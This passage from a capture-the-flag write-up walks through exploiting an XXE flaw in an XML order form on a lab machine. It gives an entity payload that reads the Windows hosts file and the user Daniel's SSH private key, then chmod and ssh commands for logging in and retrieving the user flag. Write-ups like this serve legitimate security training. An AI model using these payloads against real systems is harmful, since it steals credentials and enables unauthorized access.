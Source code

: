 ```
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
 has been processed
```
It means it works, `<item>` form is vulnerable.

Note: `&xxe;` variable works only on `<item>` form. On `<quantity>` and `<address>` forms does not, maybe because they are not vulnerable.

Note: for Windows machine, we used to check for `file:///C:/windows/system32/drivers/etc/hosts` file, but we could check also for `file:///c:/windows/win.ini` file or others.

Phase 2: Foothold
--
Now we have the following information: a possible username and SSH port opened.

At this point, we can try to search for Daniel account SSH private key. We can retrieve that by leveraging on the default path of SSH private key of users that is `C:/Users/<Account>/.ssh/id_rsa`.

Let's do that by XXE Injection. Inject the following POST data:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file:///C:/Users/Daniel/.ssh/id_rsa'>]>
<order>
   <quantity>10</quantity>
   <item>&example;</item>
   <address>HELLO THERE!</address>
</order>
```
The response output will contain the private key. Copy and paste it inside our attacker machine in a file named `id_rsa`.
To avoid the following error:
```
Permissions 0xxx for '<path>/id_rsa' are too open.
It is recommended that your private key files are NOT accessible by others.
This private key will be ignored.
```
you need to set `400` (only readable by you) or `600` (only writable by you) to `id_rsa`. Let's do it:
```
$ chmod 400 id_rsa
```
Then:
```
$ ssh -i id_rsa Daniel@10.129.95.192
```
You are inside the target server as "daniel". At this point, you can retrieve the user flag.

